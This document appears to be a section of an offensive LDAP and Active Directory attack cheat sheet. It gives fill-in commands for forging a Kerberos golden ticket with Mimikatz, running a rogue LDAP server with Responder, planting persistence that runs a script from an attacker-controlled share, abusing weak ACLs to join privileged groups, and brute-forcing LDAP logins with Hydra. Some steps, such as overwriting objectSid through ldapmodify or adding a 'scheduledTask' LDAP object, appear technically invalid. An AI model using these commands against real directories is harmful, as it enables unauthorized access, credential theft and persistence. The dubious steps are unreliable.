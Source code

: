 #### 6.2 Abuse LDAP for Golden Ticket Generation
- **Generate Golden Ticket using Mimikatz and LDAP**: Use Mimikatz to create a golden ticket and modify the `objectSid` attribute of a user via LDAP, enabling persistent unauthorized access.
  ```powershell
  mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id>
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  replace: objectSid
  objectSid: <golden_ticket_sid>
  EOF
  ```

#### 6.3 Deploying Rogue LDAP Servers
- **Create a Rogue LDAP Server with Responder**: This command starts a rogue LDAP server using Responder, which can be used to capture LDAP authentication attempts from misconfigured systems.
  ```bash
  responder -I <interface> -f
  ```

#### 6.4 Establishing Persistence with LDAP Scripts
- **Run Persistent LDAP Script**: Adds a scheduled task object in LDAP that points to a malicious script hosted on an attacker's server, enabling persistent execution of the script.
  ```b
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<persistent_task>,CN=Tasks,CN=System,DC=domain,DC=com
  changetype: add
  objectClass: top
  objectClass: scheduledTask
  scriptPath: \\<attacker_ip>\scripts\persist.bat
  EOF
  ```

#### 6.5 Exploiting Weak ACLs in LDAP
- **Modify LDAP Objects via Weak ACLs**: Exploits weak Access Control Lists (ACLs) by adding the attacker's account as a member of a sensitive group or object.
  ```b
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<vulnerable_object>,DC=domain,DC=com
  changetype: modify
  add: member
  member: CN=<attacker_user>,DC=domain,DC=com
  EOF
  ```

## 7. LDAP-Specific Attack Techniques

#### 7.1 LDAP Brute Force Authentication
- **Brute Force LDAP Authentication with Hydra**: Uses Hydra to brute force LDAP authentication, attempting multiple password combinations against the target LDAP service.
  ```bash
  hydra -l <username> -P /path/to/passwords.txt ldap://<target_ip>
  ```
